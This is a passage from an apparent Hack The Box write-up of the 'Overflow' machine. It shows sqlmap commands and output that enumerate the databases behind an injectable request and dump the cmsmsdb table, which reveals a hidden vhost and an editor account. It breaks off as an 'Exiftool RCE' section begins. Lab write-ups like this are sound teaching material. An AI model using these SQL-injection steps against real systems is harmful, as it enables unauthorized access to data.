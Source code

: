 Enumerating the databases with the `--dbs` flag there are three non default ones.

```
$ sqlmap -r logs.req --dbs
...[snip]...
available databases [4]:
[*] cmsmsdb
[*] information_schema
[*] logs
[*] Overflow

...[snip]...
```

Dumping everything from the `cmsmsdb` we see an interesting message mentioning another vhost on the machine.

```
$ sqlmap -r logs.req -D cmsmsdb --dump
...[snip]...
Database: cmsmsdb
Table: cms_userplugins
[1 entry]
+---------------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------+
| userplugin_id | code                                                                                                                                              | create_date         | description                                                                                          | modified_date       | userplugin_name 									  |
+---------------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------+
| 3             | echo "Make sure you check out devbuild-job.overflow.htb and report any UI related problems to devloper, use the editor account to authenticate."; | 2021-05-25 06:36:09 | Make sure you check out devbuild-job.overflow.htb and report any UI related problems to devloper, use the editor account to authenticate. | 2021-09-29 22:07:30 | Important       |
+---------------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------+
...[snip]...

```


## Exiftool RCE

Adding the vhost to our `/etc/hosts` file and opening the page in our browser we see an `Overflow Devbuild` website.
